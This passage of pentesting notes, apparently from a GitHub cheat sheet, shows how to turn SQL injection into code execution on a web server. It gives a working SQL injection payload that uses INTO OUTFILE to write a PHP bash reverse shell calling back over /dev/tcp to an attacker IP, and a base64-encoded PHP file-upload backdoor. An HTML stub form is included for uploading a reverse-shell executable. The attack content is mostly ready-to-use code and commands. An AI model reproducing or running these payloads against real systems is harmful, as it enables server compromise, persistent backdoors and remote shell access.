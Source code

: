 For **linux platform**, we can directly write `reverse_shell.php`.

We can use port 80 or 443 to anticipate the reverse connection.

```
payload = admin' union select null, <?php echo shell_exec('bash -i >& /dev/tcp/192.168.16.90/443 0>&1');?> into outfile '/var/www/manual/reverse_shell.php';#

[+] check if that file created successfully
payload = admin' union select null, load_file('/var/www/manual/reverse_shell.php');#

[+] get the reverse shell on kali 443 port
- start nc listening on port 443
- access http://192.168.17.252:8000/manual/reverse_shell.php through browser and receive the low privileged shell.
```

For **windows platform**, leverage `cmd_webshell` and download netcat or windows reverse shell via `TFTP` or inline FTP\` from Kali box and execute.

### File Upload Backdoor

Write `backdoor.php` to upload any files through `cmd_web_shell_base64.php`.

Convert the following command in `base64` encoded form

```
echo "<?php copy($HTTP_POST_FILES['file']['tmp_name'],$HTTP_POST_FILES['file']['name']); ?>" > x.php

[+] output
ZWNobyAiPD9waHAgY29weSgkSFRUUF9QT1NUX0ZJTEVTWydmaWxlJ11bJ3RtcF9uYW1lJ10sJEhUVFBf UE9TVF9GSUxFU1snZmlsZSddWyduYW1lJ10pOyAgICAgICAgPz4iID4geC5waHAg

[+] TBD
write code for python backdoor
```

Supply this output through "`cmd`" parameter to create the `x.php` inside the same directory.

**Stub File**: Create a HTML file inside local Kali to interact with that `php` script.

```html
<html>
<head></head>
<body>
<!-- change the ip address of the remote host -->
<form action="http://192.168.240.131/x.php" method="post" enctype="multipart/form-data">
<br><br>
Choose a file to upload:<br>
<input type="file" name="file"><br>
<input type="submit" name="submit" value="submit"> </form>
</body>
</html>
```

Access `x.php` file to upload any `reverse_shell.exe` and execute through `cmd_web_shell_base64.php` to obtain the reverse shell.
